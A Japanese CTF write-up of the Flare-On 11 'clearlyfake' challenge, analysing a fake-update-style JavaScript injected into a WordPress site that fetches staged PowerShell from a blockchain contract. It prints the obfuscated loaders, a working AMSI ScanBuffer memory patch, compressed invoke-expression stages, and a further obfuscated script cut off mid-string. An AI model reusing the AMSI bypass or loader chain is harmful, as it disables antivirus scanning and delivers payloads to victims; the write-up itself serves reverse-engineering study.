


# Flare-On 11 - clearlyfake Writeup

Flare-On Challenge は年に1回開かれるリバースエンジニアリングに特化した著名なCTF。
今年は大々的にウェブスリーの問題を出すよと宣言していて感動していた:

>The Flare-On Challenge is back for its 11th year! 🔥 This #CTF-style challenge for current and aspiring reverse engineers features puzzles across Windows, Linux, Web3, and even YARA. ([ref](https://x.com/Mandiant/status/1835740434728890492)) 

でも、蓋を開けてみるとEVMパートはデコンパイラに投げるだけで、難読化された JavaScript と PowerShell の解析をひたすらやる問題だった。

## Challenge Overview

8問目。Description は以下:

>I am also considering a career change myself but this beautifully broken JavaScript was injected on my WordPress site I use to sell my hand-made artisanal macaroni necklaces, not sure what's going on but there's something about it being a Clear Fake? Not that I'm Smart enough to know how to use it or anything but is it a Contract?

そして、難読化された JavaScript ファイルが与えられる:

```JavaScript
var f=f;function _0x5070(){var _0x33157a=['55206WoVBei','17471OZVAdR','62fJMBmo','replace','120QkxHIP','1147230VPiwgB','toString','614324JhgXcW','3dPcEIu','120329NucVSe','split','fromCharCode','2252288wlgQHe','const|web3||eth|fs|inputString|filePath|abi||targetAddress|contractAddress|error|string|data|decodedData|to|methodId|call|newEncodedData|callContractFunction|require|Web3|await||encodedData|largeString|result|new_methodId|decodeParameter|address|encodeParameters|slice|blockNumber|toString|function|writeFileSync|newData|base64|utf|from|Buffer|console|Error|catch|contract|try|0x5684cff5|new|BINANCE_TESTNET_RPC_URL|decoded|0x9223f0630c598a200f99c5d4746531d10319a569|async|0x5c880fcb|calling|base64DecodedData|KEY_CHECK_VALUE|Saved|log|43152014|decoded_output|txt','10lbdBwM','0\x20l=k(\x221\x22);0\x204=k(\x224\x22);0\x201=L\x20l(\x22M\x22);0\x20a=\x22O\x22;P\x20y\x20j(5){J{0\x20g=\x22K\x22;0\x20o=g+1.3.7.u([\x22c\x22],[5]).v(2);0\x20q=m\x201.3.h({f:a,d:o});0\x20p=1.3.7.s(\x22c\x22,q);0\x209=E.D(p,\x22B\x22).x(\x22C-8\x22);0\x206=\x22X.Y\x22;4.z(6,\x22$t\x20=\x20\x22+9+\x22\x5cn\x22);0\x20r=\x22Q\x22;0\x20w=W;0\x20i=r+1.3.7.u([\x22t\x22],[9]).v(2);0\x20A=m\x201.3.h({f:a,d:i},w);0\x20e=1.3.7.s(\x22c\x22,A);0\x20S=E.D(e,\x22B\x22).x(\x22C-8\x22);4.z(6,e);F.V(`U\x20N\x20d\x20f:${6}`)}H(b){F.b(\x22G\x20R\x20I\x20y:\x22,b)}}0\x205=\x22T\x22;j(5);','3417255SrBbNs'];_0x5070=function(){return _0x33157a;};return _0x5070();}function f(_0x31be23,_0x3ce6b4){var _0x5070af=_0x5070();return f=function(_0x55cbe9,_0x551b8f){_0x55cbe9=_0x55cbe9-0xd6;var _0x408505=_0x5070af[_0x55cbe9];return _0x408505;},f(_0x31be23,_0x3ce6b4);}(function(_0x56d78,_0x256379){var _0x5f2a66=f,_0x16532b=_0x56d78();while(!![]){try{var _0x5549b8=parseInt(_0x5f2a66(0xe1))/0x1*(parseInt(_0x5f2a66(0xe2))/0x2)+-parseInt(_0x5f2a66(0xd7))/0x3*(parseInt(_0x5f2a66(0xd6))/0x4)+parseInt(_0x5f2a66(0xdd))/0x5*(parseInt(_0x5f2a66(0xe0))/0x6)+parseInt(_0x5f2a66(0xe5))/0x7+parseInt(_0x5f2a66(0xdb))/0x8+-parseInt(_0x5f2a66(0xdf))/0x9+-parseInt(_0x5f2a66(0xe4))/0xa*(parseInt(_0x5f2a66(0xd8))/0xb);if(_0x5549b8===_0x256379)break;else _0x16532b['push'](_0x16532b['shift']());}catch(_0x1147b3){_0x16532b['push'](_0x16532b['shift']());}}}(_0x5070,0x53395),eval(function(_0x263ea1,_0x2e472c,_0x557543,_0x36d382,_0x28c14a,_0x39d737){var _0x458d9a=f;_0x28c14a=function(_0x3fad89){var _0x5cfda7=f;return(_0x3fad89<_0x2e472c?'':_0x28c14a(parseInt(_0x3fad89/_0x2e472c)))+((_0x3fad89=_0x3fad89%_0x2e472c)>0x23?String[_0x5cfda7(0xda)](_0x3fad89+0x1d):_0x3fad89[_0x5cfda7(0xe6)](0x24));};if(!''['replace'](/^/,String)){while(_0x557543--){_0x39d737[_0x28c14a(_0x557543)]=_0x36d382[_0x557543]||_0x28c14a(_0x557543);}_0x36d382=[function(_0x12d7e8){return _0x39d737[_0x12d7e8];}],_0x28c14a=function(){return'\x5cw+';},_0x557543=0x1;};while(_0x557543--){_0x36d382[_0x557543]&&(_0x263ea1=_0x263ea1[_0x458d9a(0xe3)](new RegExp('\x5cb'+_0x28c14a(_0x557543)+'\x5cb','g'),_0x36d382[_0x557543]));}return _0x263ea1;}(f(0xde),0x3d,0x3d,f(0xdc)[f(0xd9)]('|'),0x0,{})));
```

## Solution

まず難読化されている JavaScript を解読すると、内部で以下のような JavaScript が実行されることがわかる:

```JavaScript
const Web3 = require("web3");
const fs = require("fs");
const web3 = new Web3("BINANCE_TESTNET_RPC_URL");
const contractAddress = "0x9223f0630c598a200f99c5d4746531d10319a569";
async function callContractFunction(inputString) {
    try {
        const methodId = "0x5684cff5";
        const encodedData = methodId + web3.eth.abi.encodeParameters(["string"], [inputString]).slice(2);
        const result = await web3.eth.call({ to: contractAddress, data: encodedData });
        const largeString = web3.eth.abi.decodeParameter("string", result);
        const targetAddress = Buffer.from(largeString, "base64").toString("utf-8");
        const filePath = "decoded_output.txt";
        fs.writeFileSync(filePath, "$address = " + targetAddress + "\n");
        const new_methodId = "0x5c880fcb";
        const blockNumber = 43152014;
        const newEncodedData = new_methodId + web3.eth.abi.encodeParameters(["address"], [targetAddress]).slice(2);
        const newData = await web3.eth.call({ to: contractAddress, data: newEncodedData }, blockNumber);
        const decodedData = web3.eth.abi.decodeParameter("string", newData);
        const base64DecodedData = Buffer.from(decodedData, "base64").toString("utf-8");
        fs.writeFileSync(filePath, decodedData);
        console.log(`Saved decoded data to:${filePath}`)
    } catch (error) { console.error("Error calling contract function:", error) }
}
const inputString = "KEY_CHECK_VALUE";
callContractFunction(inputString);
```

特定のコントラクトに2回コールしている。
`BINANCE_TESTNET_RPC_URL` と `KEY_CHECK_VALUE` が太字だしパラメータっぽい。

とりあえず、BSC のテストネットのコントラクトだとわかるので詳細を見ていく:  
https://testnet.bscscan.com/address/0x9223f0630c598a200f99c5d4746531d10319a569

Dedaub Decompiler でデコンパイルして結果を読むと、`KEY_CHECK_VALUE` が `giV3_M3_p4yL04d!` のときに、 アドレス `0x5324eab94b236d4d1456edc574363b113cebf09d` が返ることがわかった（たぶん作問者はここをしっかりリバーシングさせたかったんだろうけど、このレベルのバイトコードのリバーシングが問題として成立したの3年前の話で、現代ではデコンパイラで瞬殺できる）:



アドレス `0x5324eab94b236d4d1456edc574363b113cebf09d` を見るとコントラクトであることがわかる:
https://testnet.bscscan.com/address/0x5324eab94b236d4d1456edc574363b113cebf09d 

そして JavaScript ファイルでは、このアドレスを `targetAddress` として、2回目のコールで引数に入れている。

しかし、2回目のコールにおいて `targetAddress` は引数ではなくトランザクションの送信先である `to` に入れるべきである（たぶん作問ミス）。
なぜなら、2回目のコールで利用している関数セレクタ `0x5c880fcb` に対応する関数があるのは、 `0x5324eab94b236d4d1456edc574363b113cebf09d` だから。

では、関数 `0x5c880fcb` が何をするものなのか？
とりあえずスクリプトで指定されたブロックナンバーで関数 `0x5c880fcb` を呼び出す:

```
cast call 0x5324eab94b236d4d1456edc574363b113cebf09d --data 0x5c880fcb --block 43152014
```

結果は以下で、これは文字列に見える（長いので途中から省略）:
```
0x0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000133457334e5a63335246625335555a5868304c6d564f513039456157354858546f36645735705932396b5253356e5a58525464484a70626b636f57334e...
```

このエンコードされている文字列データをパースして、文字列部分だけ抽出すると以下の PowerShell スクリプトが得られた:
```powershell
[sYstEm.Text.eNCODinG]::unicodE.getStrinG([sYstEm.cONvErt]::FroMbaSE64stRInG("IwBSAGEAcwB0AGEALQBtAG8AdQBzAGUAcwAgAEEAbQBzAGkALQBTAGMAYQBuAC0AQgB1AGYAZgBlAHIAIABwAGEAdABjAGgAIABcAG4ADQAKACQAZgBoAGYAeQBjACAAPQAgAEAAIgANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0AOwANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwANAAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABmAGgAZgB5AGMAIAB7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEcAZQB0AFAAcgBvAGMAQQBkAGQAcgBlAHMAcwAoAEkAbgB0AFAAdAByACAAaABNAG8AZAB1AGwAZQAsACAAcwB0AHIAaQBuAGcAIABwAHIAbwBjAE4AYQBtAGUAKQA7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEwAbwBhAGQATABpAGIAcgBhAHIAeQAoAHMAdAByAGkAbgBnACAAbgBhAG0AZQApADsADQAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyACIAKQBdAA0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABWAGkAcgB0AHUAYQBsAFAAcgBvAHQAZQBjAHQAKABJAG4AdABQAHQAcgAgAGwAcABBAGQAZAByAGUAcwBzACwAIABVAEkAbgB0AFAAdAByACAAaQB4AGEAagBtAHoALAAgAHUAaQBuAHQAIABmAGwATgBlAHcAUAByAG8AdABlAGMAdAAsACAAbwB1AHQAIAB1AGkAbgB0ACAAbABwAGYAbABPAGwAZABQAHIAbwB0AGUAYwB0ACkAOwANAAoAfQANAAoAIgBAAA0ACgANAAoAQQBkAGQALQBUAHkAcABlACAAJABmAGgAZgB5AGMADQAKAA0ACgAkAG4AegB3AHQAZwB2AGQAIAA9ACAAWwBmAGgAZgB5AGMAXQA6ADoATABvAGEAZABMAGkAYgByAGEAcgB5ACgAIgAkACgAKAAnAOMAbQBzAO0ALgAnACsAJwBkAGwAbAAnACkALgBOAE8AcgBtAEEAbABpAHoARQAoAFsAYwBIAGEAUgBdACgANwAwACoAMwAxAC8AMwAxACkAKwBbAGMAaABhAHIAXQAoADEAMQAxACkAKwBbAEMAaABhAHIAXQAoAFsAQgB5AHQAZQBdADAAeAA3ADIAKQArAFsAQwBIAGEAUgBdACgAMQAwADkAKwA2ADAALQA2ADAAKQArAFsAQwBoAGEAUgBdACgANQA0ACsAMQA0ACkAKQAgAC0AcgBlAHAAbABhAGMAZQAgAFsAYwBoAGEAUgBdACgAWwBiAFkAVABFAF0AMAB4ADUAYwApACsAWwBDAEgAYQByAF0AKABbAGIAWQBUAEUAXQAwAHgANwAwACkAKwBbAEMAaABBAFIAXQAoADEAMgAzACsAMgAtADIAKQArAFsAQwBIAGEAcgBdACgAWwBiAHkAdABlAF0AMAB4ADQAZAApACsAWwBDAGgAQQBSAF0AKABbAGIAWQBUAEUAXQAwAHgANgBlACkAKwBbAGMAaABhAHIAXQAoAFsAYgB5AFQARQBdADAAeAA3AGQAKQApACIAKQANAAoAJABuAGoAeQB3AGcAbwAgAD0AIABbAGYAaABmAHkAYwBdADoAOgBHAGUAdABQAHIAbwBjAEEAZABkAHIAZQBzAHMAKAAkAG4AegB3AHQAZwB2AGQALAAgACIAJAAoACgAJwDBAG0AcwDsAFMAYwAnACsAJwDkAG4AQgB1AGYAZgAnACsAJwBlAHIAJwApAC4ATgBPAHIAbQBBAEwASQB6AEUAKABbAEMASABhAFIAXQAoAFsAYgBZAFQARQBdADAAeAA0ADYAKQArAFsAQwBoAGEAcgBdACgAWwBiAFkAVABlAF0AMAB4ADYAZgApACsAWwBjAEgAQQByAF0AKABbAGIAWQBUAEUAXQAwAHgANwAyACkAKwBbAEMASABhAHIAXQAoADEAMAA5ACkAKwBbAGMASABhAFIAXQAoAFsAQgB5AFQAZQBdADAAeAA0ADQAKQApACAALQByAGUAcABsAGEAYwBlACAAWwBjAGgAQQBSAF0AKAA5ADIAKQArAFsAQwBoAGEAcgBdACgAWwBiAHkAVABFAF0AMAB4ADcAMAApACsAWwBjAGgAYQBSAF0AKABbAGIAWQBUAEUAXQAwAHgANwBiACkAKwBbAGMAaABhAFIAXQAoAFsAQgBZAHQARQBdADAAeAA0AGQAKQArAFsAYwBoAGEAcgBdACgAMgAxACsAOAA5ACkAKwBbAGMAaABhAFIAXQAoADMAMQArADkANAApACkAIgApAA0ACgAkAHAAIAA9ACAAMAANAAoAWwBmAGgAZgB5AGMAXQA6ADoAVgBpAHIAdAB1AGEAbABQAHIAbwB0AGUAYwB0ACgAJABuAGoAeQB3AGcAbwAsACAAWwB1AGkAbgB0ADMAMgBdADUALAAgADAAeAA0ADAALAAgAFsAcgBlAGYAXQAkAHAAKQANAAoAJABoAGEAbAB5ACAAPQAgACIAMAB4AEIAOAAiAA0ACgAkAGQAZABuAGcAIAA9ACAAIgAwAHgANQA3ACIADQAKACQAeABkAGUAcQAgAD0AIAAiADAAeAAwADAAIgANAAoAJABtAGIAcgBmACAAPQAgACIAMAB4ADAANwAiAA0ACgAkAGUAdwBhAHEAIAA9ACAAIgAwAHgAOAAwACIADQAKACQAZgBxAHoAdAAgAD0AIAAiADAAeABDADMAIgANAAoAJAB5AGYAbgBqAGIAIAA9ACAAWwBCAHkAdABlAFsAXQBdACAAKAAkAGgAYQBsAHkALAAkAGQAZABuAGcALAAkAHgAZABlAHEALAAkAG0AYgByAGYALAArACQAZQB3AGEAcQAsACsAJABmAHEAegB0ACkADQAKAFsAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMALgBNAGEAcgBzAGgAYQBsAF0AOgA6AEMAbwBwAHkAKAAkAHkAZgBuAGoAYgAsACAAMAAsACAAJABuAGoAeQB3AGcAbwAsACAANgApAA=="))|iex
```

とりあえず Base64 デコードすると、さらに PowerShell スクリプトが得られた:

```powershell
#Rasta-mouses Amsi-Scan-Buffer patch \n
$fhfyc = @"
using System;
using System.Runtime.InteropServices;
public class fhfyc {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr ixajmz, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $fhfyc

$nzwtgvd = [fhfyc]::LoadLibrary("$(('�ms�.'+'dll').NOrmAlizE([cHaR](70*31/31)+[char](111)+[Char]([Byte]0x72)+[CHaR](109+60-60)+[ChaR](54+14)) -replace [chaR]([bYTE]0x5c)+[CHar]([bYTE]0x70)+[ChAR](123+2-2)+[CHar]([byte]0x4d)+[ChAR]([bYTE]0x6e)+[char]([byTE]0x7d))")
$njywgo = [fhfyc]::GetProcAddress($nzwtgvd, "$(('�ms�Sc'+'�nBuff'+'er').NOrmALIzE([CHaR]([bYTE]0x46)+[Char]([bYTe]0x6f)+[cHAr]([bYTE]0x72)+[CHar](109)+[cHaR]([ByTe]0x44)) -replace [chAR](92)+[Char]([byTE]0x70)+[chaR]([bYTE]0x7b)+[chaR]([BYtE]0x4d)+[char](21+89)+[chaR](31+94))")
$p = 0
[fhfyc]::VirtualProtect($njywgo, [uint32]5, 0x40, [ref]$p)
$haly = "0xB8"
$ddng = "0x57"
$xdeq = "0x00"
$mbrf = "0x07"
$ewaq = "0x80"
$fqzt = "0xC3"
$yfnjb = [Byte[]] ($haly,$ddng,$xdeq,$mbrf,+$ewaq,+$fqzt)
[System.Runtime.InteropServices.Marshal]::Copy($yfnjb, 0, $njywgo, 6)
```

しかし、これは Antimalware Scan Interface (AMSI) のスキャン機能をバイパスするためのパッチのように見えて関係なさそう。

ところで、なぜブロックナンバーが指定されているのか？
トランザクション一覧を見ると、ターゲットアドレスに対して関数 `0x916ed24b` が複数回呼ばれている:


関数 `0x916ed24b` 全ての呼び出しで、 Base64 でエンコードされた意味ありげなデータがストアされている。
そこで、とりあえず全部解読するコードを書いてみたところ、[最後のトランザクション](https://testnet.bscscan.com/tx/0x5a6675770eff26562a47efa4e22bbf29d764351c13d8b1dce1f9c4f6a471d2f3)で PowerShell スクリプトが見つかった:

```
invOKe-eXpREsSIon (NeW-OBJeCt SystEm.Io.StReaMREAdeR((NeW-OBJeCt Io.COMPRESsIOn.deflATestream( [sYSTeM.Io.memORyStREaM] [cONvErt]::fROmbAsE64StriNg('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' ) , [iO.compRESSION.CompREsSionMode]::dEcoMPrEss ) ) , [SyStEm.TEXt.EnCodINg]::asCII)).ReaDTOEND()
```

なにか展開しているように見える。
ちょうど PowerShell 環境が無かったので、Python で展開するコードを書いた:
```
compressed_data = base64.b64decode(base64_data)
decompressed_data = zlib.decompress(compressed_data, wbits=-zlib.MAX_WBITS)
text = decompressed_data.decode('ascii')
```

そして以下の難読化された PowerShell スクリプトが得られた:

```
b'(("{39}{64}{57}{45}{70}{59}{9}{66}{0}{31}{21}{50}{6}{56}{5}{22}{69}{71}{43}{60}{8}{35}{68}{44}{1}{19}{41}{30}{67}{38}{18}{7}{33}{54}{63}{34}{61}{24}{48}{4}{47}{3}{40}{51}{26}{42}{15}{37}{12}{10}{11}{52}{14}{23}{29}{53}{25}{16}{49}{55}{62}{36}{27}{28}{13}{17}{46}{20}{2}{65}{58}{32}"-f \'CSAKoY+K\',\'xed\',\'P dKoY+KoYohteM- doKoY+KoYhteMtseR-ekovnI(( eulaV- pser emaN- elbairaV-teS\n)1aP}Iz70.2Iz7:Iz7cprnosjIzKoY+KoY7,1:Iz7diIz7,]KCOLB ,}Iz7bcf088c5x0Iz7:Iz7atadIz7,KoY+KoYIz7sserddaK6fIz7:Iz7otIz7KoY+KoY{[:Iz7smarapIz7,Iz7llac_hteIz7:Iz7d\',\'aBmorFsKoY+KoYetybK6f(gnirtSteKoY+KoYG.8FTU::]gniKoY+KoYdocnE.txeKoY+KoYT.metsyS[( KoY+KoYeulaV- KoY+KoYiicsAtluser emaN-KoY+KoY elbairaV-teS\n))2setybK6f(gniKoY+KoYrtS46esaBmorF::]trevnoC[( eulaV- 46esaBmorFsetyb ema\',\'tamroF #  _K6f f- 1aP}2X:0{1aP    \n{ tcejbO-hcaEroF sOI ii\',\'KoY+KoYab tlKoY+KoYuKoY+KoYser eht trevnoC #\n}\n ))]htgneL.setyByekK6f % iK6f[setyByekK6f roxb-\',\'teS\n)gnidocne IICSA gnimussa( gnirts\',\'KoY+KoYV-\',\'eT[( eulaV- 5setyb emaN- elbairaV-teS\n)}\n)61 ,)2 ,xednItratsK6f(gnirtsbuS.setyBxehK6f(etyBo\',\'c[((EcALPER.)93]RAHc[]GnIRTS[,)94]RAHc[+79]RAHc[+08]RAHc[((EcALPER.)63]RAHc[]GnIRTS[,)57]RAHc[+45]RAHc[+201]RAHc[((EcALPER.)KoY\ndnammocK6f noisserpxE-ekovnI\n)Iz7galfZjWZjW:C f- 1aPgaKoY+KoYlfZjWZjW:C > gnirtStlKoY+KoYuserK6KoY+KoYf ohce c/ dm\',\'N- \',\'elbai\',\'yb ema\',\')tl\',\'.rebmuNxehK6f(etyBoT::]trevnoC[  \',\'0setybK6f(gni\',\'Y+KoYcejbO-hcaEroFKoY+KoY sOI )1\',\'user.)ydob_K6f ydoB- Iz7nosj/noitacil\',\'usne( setyb ot xeh KoY+KoYmorf trevnoC #\n)Iz7Iz7 ,Iz7 Iz7 ecalper- setyBxehK6f(KoY+KoY eula\',\'nItrats em\',\'noKoY+KoYC- tniopdne_tentsetK6f irU- 1aPtsoP1a\',\'eT.metsyS[( eulaV- gnirtStluser emaN-\',\' ]iK6f[5setybK6f( + setyBtluserK6f( eulaV- \',\'KoY+KoY  \n)1 + xednKoY+KoYItratsK6f( eu\',\'eS\n)}\nsrettel esacrKoY+KoYeppu htiw xeh tigid-\',\' KoY+KoYtKo\',\'ulaV\',\'f( eulaV\',\'- rebmuNxeh emaN- elbairaV-teS\nxiferp 1aPx01aP eht evomeR KoY+KoY#\n\n\',\'laV- xednIdne KoY+KoYema\',\'F sOI )1 \',\'oY::]gnidocnE.tx\',\'eSKoY( G62,KoY.KoY ,KoYriGHTToLeftKoY) DF9%{X2j_ } )+G62 X2j(set-ITEM  KoYvArIAbLE:oFSKoY KoY KoY )G62) \',\' setyBxeh em\',\'etirW#\n )1aP 1aP KoY+KoYnioj- setyBxehK6f( eulaV- gnirtSxehKoY+KoY emaN- elbairaKoY+KoY\',\'T::]trevnoC[    \n)1 + xednItra\',\'alper- pserK6\',\'rtSteG.8FTU::]gnidocnE.txeT.metsyS[( eulaV- 1set\',\'elbairaV-tKoY+KoYeS\n)sretcarahc xeh fo sriap gnir\',\'. ( X2jEnV:coMspec[4,26,25]-jOInKoYKoY)(G62X2j(set-iTem KoYVAriABle:OfSKoY  KoYKoY )G62 + ( [STrinG][REGEx]:\',\'N- elbairaV-teS\nsety\',\'aN- elbairaV-teS    \n{ tcejbO-hcaEro\',\'- 2setyb emaN- eKoY+KoYlbairaV-teS\n))\',\' eht mrofreP \',\'ne emaN- elbairKoY+KoYaV-teS    \n)2 * _K6f( eulaV- \',\'-]2,11,3[EmAN.)KoY*rdm*KoY ElBAIrav((.DF9)421]RAHc[]GnIRTS[,KoYsOIKoY(EcALPER.)\',\'ppaIz7 epyTtnet\',\'csAtlKoY+KoYuserK6f( euKoY+KoYlaV- setyBxeh emaN- elbairaV-teS\n))46es\',\'owt sa etyb hcae \',\' - 2 / htgneL.rebmuNxehK6f(..0( eulaV- 0setyb emaN- elbairaV-teS\n)sretcarahc xeh fo sriap gnirusne(K\',\' elbairaV-\',\'b ot 46esab morf trevnoC #\n\n))881 ,46(gnirtsbuS.1setybK6f( e\',\'raV-teS\n )}\n)61 ,)2 